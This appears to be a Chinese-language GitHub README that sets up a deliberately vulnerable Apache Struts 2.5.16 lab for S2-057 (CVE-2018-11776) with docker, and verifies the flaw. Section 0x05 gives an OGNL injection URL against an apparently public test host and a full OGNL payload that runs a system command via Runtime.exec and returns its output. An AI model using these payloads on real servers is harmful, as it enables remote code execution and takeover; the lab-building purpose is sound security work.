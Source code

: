 # St2-057 在线靶机环境，Enjoy！


# 0x01 搭建环境docker

https://github.com/vulhub/vulhub/tree/master/struts2/s2-048

```
docker-compose up -d
```

# 0x02 搭建st2-057漏洞环境

```
docker exec -i -t 88fd8d560155 /bin/bash
```
后台启动进入docker
![](./docker-struts-048.jpg)

根据公告
https://struts.apache.org/releases.html

```
Release	Release Date	Vulnerability	Version Notes
Struts 2.5.16	16 March 2018	S2-057	Version notes
Struts 2.5.14.1	30 November 2017	Version notes
Struts 2.5.14	23 November 2017	S2-055, S2-054	Version notes
```
![](./in-st2-57.jpg)
Struts 2.5.16存在s2-057漏洞，然后去下载这个版本

https://fossies.org/linux/www/legacy/struts-2.5.16-all.zip/

```

apt-get update -y
mkdir /usr/local/tomcat/webapps/test
wget https://fossies.org/linux/www/legacy/struts-2.5.16-all.zip
apt-get install unzip -y
cp struts2-showcase.war /usr/local/tomcat/webapps/

```
![](./wget-st2-057.jpg)

# 0x03 修改配置文件

先查找文件struts-actionchaining.xml，发现有2处需要修改
```
root@88fd8d560155:/usr/local/tomcat/webapps/test# locate struts-actionchaining.xml
/usr/local/tomcat/webapps/struts2-showcase/WEB-INF/classes/struts-actionchaining.xml
/usr/local/tomcat/webapps/struts2-showcase/WEB-INF/src/java/struts-actionchaining.xml
/usr/local/tomcat/webapps/test/struts-2.5.16/src/apps/showcase/src/main/resources/struts-actionchaining.xml
root@88fd8d560155:/usr/local/tomcat/webapps/test# 

```
配置文件修改-参考链接：
https://lgtm.com/blog/apache_struts_CVE-2018-11776

改为如下所示：

```
<struts>
    <package name="actionchaining" extends="struts-default">
        <action name="actionChain1" class="org.apache.struts2.showcase.actionchaining.ActionChain1">
           <result type="redirectAction">
             <param name = "actionName">register2</param>
           </result>
        </action>
    </package>
</struts>
```
![](./struts-actionchaining.jpg)

然后去bin目录，kill掉进程,因为修改了配置文件，所以需要重启服务
```
root@88fd8d560155:/usr/local/tomcat/bin# cd /usr/local/tomcat/bin/
root@88fd8d560155:/usr/local/tomcat/bin# ls
bootstrap.jar	    catalina.sh			  commons-daemon.jar  daemon.sh  setclasspath.sh  startup.sh	   tool-wrapper.sh
catalina-tasks.xml  commons-daemon-native.tar.gz  configtest.sh       digest.sh  shutdown.sh	  tomcat-juli.jar  version.sh
root@88fd8d560155:/usr/local/tomcat/bin# ./shutdown.sh 

```
![](./down.jpg)

# 0x04 重启服务，st2-057搭建完成
```
 ✘ ⚡ root@HK  ~/vulhub/struts2/s2-048   master ●  docker-compose up -d
Starting s2-048_struts2_1 ... done
 ⚡ root@HK  ~/vulhub/struts2/s2-048   master ●  
```
![](./start.jpg)
# 0x05  验证st2-057
docker 靶机：http://www.canyouseeme.cc:8080/struts2-showcase/

命令执行：http://www.canyouseeme.cc:8080/struts2-showcase/${(111+111)}/actionChain1.action

${(111+111)}

得到执行结果返回在url中：http://www.canyouseeme.cc:8080/struts2-showcase/222/register2.action

![](./st2-57.jpg)

#### Ps: ${(111+111)} 可以替换成以前的poc，例如S2-032

![](./calc.jpg)

```
${(#_memberAccess["allowStaticMethodAccess"]=true,#a=@java.lang.Runtime@getRuntime().exec('calc').getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new  java.io.BufferedReader(#b),#d=new char[51020],#c.read(#d),#jas502n= @org.apache.struts2.ServletActionContext@getResponse().getWriter(),#jas502n.println(#d ),#jas502n.close())}

拆分
${
(
#_memberAccess["allowStaticMethodAccess"]=true,
#a=@java.lang.Runtime@getRuntime().exec('calc').getInputStream(),
#b=new java.io.InputStreamReader(#a),
#c=new java.io.BufferedReader(#b),
#d=new char[51020],
#c.read(#d),
#jas502n= @org.apache.struts2.ServletActionContext@getResponse().getWriter(),
#jas502n.println(#d),
#jas502n.close())
}
```
# 0x06 参考链接

```
https://github.com/vulhub/vulhub/tree/master/struts2/s2-048
https://lgtm.com/blog/apache_struts_CVE-2018-11776
https://cwiki.apache.org/confluence/display/WW/S2-057
https://www.anquanke.com/post/id/157518
```
